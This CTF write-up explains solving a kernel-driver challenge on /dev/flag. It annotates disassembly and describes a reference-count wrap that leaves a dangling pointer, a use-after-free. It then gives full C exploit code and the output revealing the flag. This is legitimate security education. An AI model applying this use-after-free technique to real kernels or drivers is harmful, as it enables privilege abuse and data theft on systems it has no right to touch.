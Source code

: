 # Binary exploit 4

We're given the object file of a kernel device driver responsible for a unique
character device accessed through /dev/flag, along with the appropriate header
file for issuing ioctl requests to that device.

The character device can be opened, read, or written to, as well as controlled
using ioctl requests. Writes to the device are ignored by the driver, and reads
return data from a message buffer, initially containing the message "Welcome to
the flag verification service.", but after a successful exploit, the message
will contain the flag.

It appears that the "intended" use of this device is for it to manage two
copies of the flag, a "kernelflag", which is the secret version, known only to
the kernel, and a "userflag", given by userspace. The ioctls allow for loading
and unloading both the kernelflag and the userflag, and a VERIFYFLAG ioctl
should compare the two.


This challenge gave me a lot of grief. I started out by analyzing a disassembly
of the object file, coming up with a strategy to attack the problem. It appears
that when called with the KERNELFLAGLOAD ioctl, the code _in the object file_
would decrypt an encrypted copy of the flag in the kernel, and store it in
plaintext in memory. My plan was to run the emulator with a breakpoint at some
point in kernelspace after that decryption took place, and then to examine the
emulator memory dump looking for the decrypted flag. When I hit the breakpoint
and the emulator dumped a partial disassembly, it didn't match the disassembly
I was looking at from the object file.

I finally decided to disassemble the whole kernel image instead, and to my
surprise, the code there is subtly different from that in the object file. Back
to square one then ...


## Analyzing the kernel code

In the _real_ copy of the code, the KERNELFLAGLOAD request doesn't do any
decryption at all, but simply (more or less) copies the encrypted kernel flag
from the initialized data segment to a dynamic memory allocation. Similarly,
the USERFLAGLOAD request copies the supplied flag to a dynamically allocated
buffer, and the crypto doesn't happen until the VERIFYFLAG request is called.

There's a catch to accessing the decryption portion of the code, though. The
USERFLAGLOAD request checks that the flag is of a certain length and that it
starts with "FE{" before storing it:

```
8003add4: 40650000  mov     a0, s0              ; Flag given from userspace
8003add8: 477f800c  add     ra, ip,12           ; call strlen(arg)
8003addc: 872328e2  movi    at0, 0x0000651c     ; ...
8003ade0: 8f3fffb0  addi    at0, 0xfffd0000     ; ...
8003ade4: 47fff200  jmp     ip+at0              ; ...
8003ade8: 83c01fe0  movi    t0, 0x000000ff
8003adec: 606f0080  and     a0, t0 shl (zz + 0)
8003adf0: b8658147  cjmpne  a0,s1,0x8003ae18    ; branch to "unable to load flag" if (strlen & 0xff) != 50

8003adf4: 8091c820  movi    a1, 0x00008e41      ; STRING: "FE{"
8003adf8: 88880071  addi    a1, 0x80060000      ; ...
8003adfc: 40a00003  add     a2, zz,3
8003ae00: 40650000  mov     a0, s0
8003ae04: 477f800c  add     ra, ip,12           ; call strncmp(arg, "FE{", 3)
8003ae08: 87234fe2  movi    at0, 0x000069fc     ; ...
8003ae0c: 8f3fffb0  addi    at0, 0xfffd0000     ; ...
8003ae10: 47fff200  jmp     ip+at0              ; ...
8003ae14: b86014e3  cjmpeq  a0,zz,0x8003b0b0    ; branch if strncmp == 0 (i.e. string starts with "FE{")
                                                ; else

8003ae18: 8067c0e2  movi    a0, 0x0000f81c      ; STRING: "%sUnable to load your flag."
8003ae1c: 88680071  addi    a0, 0x80060000      ; ...
8003ae20: 809fe660  movi    a1, 0x0000ff33      ; STRING: "\e[34;1m=\e[32;1m*\e[34;1m= \e[m"
8003ae24: 88880071  addi    a1, 0x80060000      ; ...
8003ae28: 477f800c  add     ra, ip,12
8003ae2c: 872205e2  movi    at0, 0x000040bc
8003ae30: 8f3fffb0  addi    at0, 0xfffd0000
8003ae34: 47fff200  jmp     ip+at0              ; call printk
8003ae38: 406000ea  add     a0, zz,-22
8003ae3c: b8000ec3  jmp     0x8003b014          ; jmp to exit
```

The VERIFYFLAG request compares the stored userflag against the stored (and
encrypted) kernelflag before continuing, so because the userflag must start
with "FE{" and the encrypted kernelflag does not, at first glance, it appears
to be impossible to bypass that check and get anywhere near getting the crypto
code executed:

```
8003ae88: 83c27163  movi    t0, 0x00009c58      ; userflagRefCnt
8003ae8c: 8bd000f0  addi    t0, 0x80070000      ; ...
8003ae90: 03ef0000  ldb     t1, [t0+0]
8003ae94: 43c00001  add     t0, zz,1
8003ae98: bbef0a67  cjmpne  t1,t0,0x8003afe4    ; branch if refcnt != 1 to "Verification fail, no flag loaded." error

8003ae9c: 83e09c65  movi    t1, 0x00009c60      ; kernelflagRefCnt
8003aea0: 8bf000f0  addi    t1, 0x80070000      ; ...
8003aea4: 03ef8000  ldb     t1, [t1+0]
8003aea8: bbef0a47  cjmpne  t1,t0,0x8003aff0    ; branch if refcnt != 1 to "Verification fail, no solution flag loaded." error

8003aeac: 83c4e322  movi    t0, 0x00009c64      ; kernelflag
8003aeb0: 8bd000f0  addi    t0, 0x80070000      ; ...
8003aeb4: 108f0000  ldw     a1, [t0+0]
8003aeb8: 83c4e2e2  movi    t0, 0x00009c5c      ; userflag
8003aebc: 8bd000f0  addi    t0, 0x80070000      ; ...
8003aec0: 106f0000  ldw     a0, [t0+0]
8003aec4: 40a00032  add     a2, zz,50
8003aec8: 477f800c  add     ra, ip,12           ; call strncmp(userflag, kernelflag, 50)
8003aecc: 8721a4e3  movi    at0, 0x00006938     ; ...
8003aed0: 8f3fffb0  addi    at0, 0xfffd0000     ; ...
8003aed4: 47fff200  jmp     ip+at0              ; ...

8003aed8: b8601023  cjmpeq  a0,zz,0x8003b0dc    ; jmp to success ("You rock!" message) if strncmp == 0
8003aedc: 806114a1  movi    a0, 0x0000114a      ; STRING: "%sVerification failed. Flags do not match."
8003aee0: 887000f0  addi    a0, 0x80070000      ; ...
8003aee4: b80008a3  jmp     0x8003aff8          ; jump to error output and exit
```


## The use-after-free error

In addition to the dynamically allocated strings, the kernel module also
maintains a reference count to both flags in an unsigned char (8-bit) variable.
When issuing the XXXFLAGLOAD ioctl request, the appropriate refcount is
checked, and the request fails if the refcount is already 1, otherwise memory
is allocated, the flag is copied, and the refcount is incremented. The
XXXFLAGFREE requests, however, contain a flaw in the reference counting,
essentially coded like this:

```
if (flagRefCount == 1) {
	kfree(flag);
}
flagRefCount--;
```

When calling the XXXFLAGFREE ioctl request, the reference count is always
decremented. If it was 1, the memory is freed, but the pointer is not cleared.
If the reference count was 0, it's decremented and wraps around to 255. We can
keep decrementing it until it reaches 1 again, indicating that a valid flag is
loaded, but the memory that the flag variable points to is no longer valid. We
can use this to make the two flags equal: First we load the kernelflag, then
free it a bunch of times until the refcount is 1 again, then load a dummy
userflag. The memory allocation that is made to store a copy of the userflag
will be for the exact same size as the block just freed by the kernelflag, so
now userflag and kernelflag point to the same string in memory. The verifyflag
request will succeed, and we get the flag.

C code to exploit the bug:

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <unistd.h>

#include "devflag.h"

/* The flag argument MUST be 50 characters long, and MUST start with "FE{".
 * Other than that, it can be anything. */

const char dummy_userflag[] = "FE{1234567890123456789012345678901234567890123456}";

int main(int argc, char **argv)
{
        int fd = open("/dev/flag", O_RDWR);

        ioctl(fd, KERNELFLAGLOAD, NULL); /* refcnt = 1 */
        ioctl(fd, KERNELFLAGFREE, NULL); /* refcnt = 0 */
        ioctl(fd, KERNELFLAGFREE, NULL); /* refcnt = 0xFF */

        for (int refcnt = 0xFF; refcnt != 1; --refcnt) {
                ioctl(fd, KERNELFLAGFREE, NULL); /* refcnt = 0xFE .. 1 */
        }

        /* Now the kernelflag's refcount is back to 1 again, but the kernelflag
         * variable points to a free'd area of memory. When we load the dummy
         * userflag again, the kernel module will allocate a new 50-byte chunk
         * of memory for its copy o the userflag, but it will be given the same
         * chunk as the kernelflag previously held and still points to.
         *
         * After the dummy userflag is loaded, both the userflag and kernelflag
         * point to the same address in memory, so they will compare as equal,
         * and the VERIFYFLAG ioctl will allow us to continue and collect the
         * flag.
         */

        ioctl(fd, USERFLAGLOAD, dummy_userflag);
        ioctl(fd, VERIFYFLAG, NULL);

        char buffer[51];
        read(fd, buffer, sizeof(buffer));
        printf("%s\n", buffer);
}
```

Running it shows we hit the expected "You rock!", and the character device now
allows the decrypted flag to be read out.

```
hacker@sphinx # ./exploit-refcount
=*= Flag loaded for verification
=*= You rock!
FE{S3crets_0f_th3_sph1nx_4nd_the_tri4ls_of_fenix!}
```


---
_Peter Tirsek, 2020-01-22_
